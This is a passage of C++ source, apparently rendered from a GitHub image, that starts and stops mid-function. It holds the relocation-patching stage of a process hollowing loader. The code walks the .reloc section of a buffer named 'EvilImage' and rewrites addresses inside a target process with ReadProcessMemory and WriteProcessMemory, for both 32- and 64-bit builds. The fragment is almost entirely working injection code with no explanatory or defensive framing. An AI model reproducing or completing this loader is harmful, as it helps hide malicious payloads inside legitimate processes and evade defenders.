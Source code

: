```cpp
	#endif
        if (BaseOffset) {
        printf("\nRelocating The Relocation Table...\n");
        for (int i = 0; i < nt_head->FileHeader.NumberOfSections; i++) {
            sec_head = (PIMAGE_SECTION_HEADER)((LPBYTE)EvilImage + dos_head->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
            char pSectionName[] = ".reloc";
            if (memcmp(sec_head->Name, pSectionName, strlen(pSectionName))) {
                continue;
            }

            DWORD RelocAddress = sec_head->PointerToRawData;
            IMAGE_DATA_DIRECTORY RelocData = nt_head->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC];
            DWORD Offset = 0;

            while (Offset < RelocData.Size) {
                PBASE_RELOCATION_BLOCK pBlockHeader = (PBASE_RELOCATION_BLOCK)&EvilImage[RelocAddress + Offset];
                printf("\nRelocation Block 0x%x. Size: 0x%x\n", pBlockHeader->PageAddress, pBlockHeader->BlockSize);
                Offset += sizeof(BASE_RELOCATION_BLOCK);

                DWORD EntryCount = (pBlockHeader->BlockSize - sizeof(BASE_RELOCATION_BLOCK)) / sizeof(BASE_RELOCATION_ENTRY);
                printf("%d Entries Must Be Relocated In The Current Block.\n", EntryCount);

                PBASE_RELOCATION_ENTRY pBlocks = (PBASE_RELOCATION_ENTRY)&EvilImage[RelocAddress + Offset];

                for (int x = 0; x < EntryCount; x++) {
                    Offset += sizeof(BASE_RELOCATION_ENTRY);
                    if (pBlocks[x].Type == 0) {
                        printf("The Type Of Base Relocation Is 0. Skipping.\n");
                        continue;
                    }

                    DWORD FieldAddress = pBlockHeader->PageAddress + pBlocks[x].Offset;

                    #ifdef _X86_
                    DWORD EntryAddress = 0;
                    ReadProcessMemory(proc_info.hProcess, (PVOID)((DWORD)BaseAddress + FieldAddress), &EntryAddress, sizeof(PVOID), 0);
                    printf("0x%llx --> 0x%llx | At:0x%llx\n", EntryAddress, EntryAddress + BaseOffset, (PVOID)((DWORD)BaseAddress + FieldAddress));
                    EntryAddress += BaseOffset;
                    if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((DWORD)BaseAddress + FieldAddress), &EntryAddress, sizeof(PVOID), 0)) {
                        printf("Error Writing Entry.\n");
                    }
                    #endif
                    #ifdef _WIN64
                    DWORD64 EntryAddress = 0;
                    ReadProcessMemory(proc_info.hProcess, (PVOID)((DWORD64)BaseAddress + FieldAddress), &EntryAddress, sizeof(PVOID), 0);
                    printf("0x%llx --> 0x%llx | At:0x%llx\n", EntryAddress, EntryAddress + BaseOffset, (PVOID)((DWORD64)BaseAddress + FieldAddress));
                    EntryAddress += BaseOffset;
                    if (!WriteProcessMemory(proc_info.hProcess, (PVOID)((DWORD64)BaseAddress + FieldAddress), &EntryAddress, sizeof(PVOID), 0)) {
                        printf("Error Writing Entry.\n");
                    }
                    #endif
```